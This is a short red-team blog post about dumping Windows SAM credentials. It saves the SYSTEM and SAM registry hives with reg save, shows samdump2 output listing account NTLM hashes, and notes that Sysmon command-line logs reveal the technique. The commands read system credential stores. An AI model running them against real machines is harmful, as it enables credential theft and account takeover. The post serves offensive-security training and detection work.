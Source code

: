 ```yaml
---
layout: post
title: "2024-06-18-sam"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /sam/
---
```


---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---

# Security Accounts Manager

## Execution

Dumping the registry hives required for hash extraction:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

@spotheplanet
